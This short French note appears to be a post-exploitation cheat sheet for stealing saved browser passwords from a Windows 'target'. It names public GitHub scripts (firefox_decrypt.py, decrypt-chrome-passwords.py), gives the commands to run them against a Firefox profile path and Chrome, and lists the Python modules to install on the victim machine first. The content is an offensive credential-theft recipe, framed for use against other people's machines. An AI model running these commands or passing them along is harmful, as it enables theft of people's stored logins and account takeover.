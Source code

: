 Only on windows

#Firefox
Chercher `firefox_decrypt.py` sur github

```c
python firefox_decrypt.py C:\Users\Appdata\Roaming\Mozilla\Firefox\Profiles\7s6z2hv1.default-release
```

#Chrome
Tout d'abord installer ces modules sur la cible `pip install pypiwin32 pycryptodomex`
Chercher `decrypt-chrome-passwords.py` sur github

```c
python decrypt-chrome-passwords.py 
```
